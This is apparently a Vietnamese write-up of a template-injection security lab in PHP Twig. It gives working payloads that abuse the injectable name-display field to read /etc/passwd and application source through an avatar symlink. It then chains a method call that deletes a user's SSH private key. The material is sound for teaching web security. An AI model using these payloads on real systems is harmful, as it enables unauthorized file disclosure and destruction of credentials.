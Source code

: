 # Target Goal:
This lab is vulnerable to server-side template injection. To solve the lab, create a custom exploit to delete the file `/.ssh/id_rsa` from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`
# Analysis:
Sau khi đăng nhập, ứng dụng chứa 2 chức năng cho phép user thay đổi cách hiển thị tên trong các post và upload avatar.

![image](https://github.com/user-attachments/assets/502ec2e7-80da-4553-be63-201b15b30ccc)

Tương tự bài lab 2, chức năng thay đổi cách hiển thị tên trong các post bị dính SSTI. Fuzz với payload `${{<%[%'"}}%\`

![image](https://github.com/user-attachments/assets/c3fafd27-bc35-4f63-92fe-1804d2a67184)

Ta thấy server báo lỗi chứa template engine Twig của PHP.

![image](https://github.com/user-attachments/assets/b9216087-775a-415d-83bb-5f2234ae9115)

Như vậy server có thể render author name bằng `{{blog-post-author-display}}`.

Identify bằng payload
```
blog-post-author-display=user.nickname}}{{7*7
```
![image](https://github.com/user-attachments/assets/2b4b68ff-481b-4f98-a21e-b8c642ca4004)

Ta thấy số `49` đã render thành công. Như vậy mình có thể SSTI tại chức năng này.

Mặt khác, ở chức năng upload avatar, khi upload sai file yêu cầu, một error được trả về từ User class tại `/home/carlos/User.php`. Và server sẽ gọi `User->setAvatar('/tmp/filename', 'MIME_TYPE')` để set avatar cho user.

![image](https://github.com/user-attachments/assets/bda88540-4524-4fe1-805b-6df3cdb1da62)

Ta sẽ tận dụng lỗi SSTI ở trên để gọi hàm `user.setAvatar()` với file bất kì rồi xem avatar để lấy được nội dung file đó. Thử payload sau để set avatar là nội dung file `/etc/passwd`.
```
blog-post-author-display=user.setAvatar('/etc/passwd')
```
Tuy nhiên như đã nói, ta cần thêm 1 tham số `MIME_TYPE`

![image](https://github.com/user-attachments/assets/121ca1b1-0c15-4926-ae05-1cee37a7b7d4)

và vì avatar yêu cầu file ảnh, nên ta truyền thêm `image/jpeg`.
```
blog-post-author-display=user.setAvatar('/etc/passwd','image/jpeg')
```
Truy cập xem avatar, ta thấy nội dung file `/etc/passwd` đã được trả về.

![image](https://github.com/user-attachments/assets/1a6cb1d1-3b9e-4693-a795-b943d3ea1b93)

Sử dụng phương pháp tương tự để xem nội dung class User.
```
blog-post-author-display=user.setAvatar('/home/carlos/User.php','image/jpeg')
```
![image](https://github.com/user-attachments/assets/d3025bfd-a80d-4e2b-90ee-f2ae9bb045e0)

```
<?php

class User {
    public $username;
    public $name;
    public $first_name;
    public $nickname;
    public $user_dir;

    public function __construct($username, $name, $first_name, $nickname) {
        $this->username = $username;
        $this->name = $name;
        $this->first_name = $first_name;
        $this->nickname = $nickname;
        $this->user_dir = "users/" . $this->username;
        $this->avatarLink = $this->user_dir . "/avatar";

        if (!file_exists($this->user_dir)) {
            if (!mkdir($this->user_dir, 0755, true))
            {
                throw new Exception("Could not mkdir users/" . $this->username);
            }
        }
    }

    public function setAvatar($filename, $mimetype) {
        if (strpos($mimetype, "image/") !== 0) {
            throw new Exception("Uploaded file mime type is not an image: " . $mimetype);
        }

        if (is_link($this->avatarLink)) {
            $this->rm($this->avatarLink);
        }

        if (!symlink($filename, $this->avatarLink)) {
            throw new Exception("Failed to write symlink " . $filename . " -> " . $this->avatarLink);
        }
    }

    public function delete() {
        $file = $this->user_dir . "/disabled";
        if (file_put_contents($file, "") === false) {
            throw new Exception("Could not write to " . $file);
        }
    }

    public function gdprDelete() {
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
        $this->delete();
    }

    private function rm($filename) {
        if (!unlink($filename)) {
            throw new Exception("Could not delete " . $filename);
        }
    }
}

?>
```
Hàm `setAvatar(filename, mimetype)` sẽ tạo 1 symlink từ avatarLink đến filename. Mặt khác hàm `gdprDelete()` lại có chức xóa cả avatarLink và target nó đang link đến (chính là filename).

Như vậy mình sẽ set avatar là file cần xóa '/home/carlos/.ssh/id_rsa'.
```
blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpeg')
```
![image](https://github.com/user-attachments/assets/74d9cf34-15af-44c9-9972-4742c3672411)

Gọi `user.gdprDelete()` để xóa.
```
blog-post-author-display=user.gdprDelete()
```
## Flag:

![image](https://github.com/user-attachments/assets/452c29b4-d7ea-4b8e-84c4-fcbe4f8613fe)














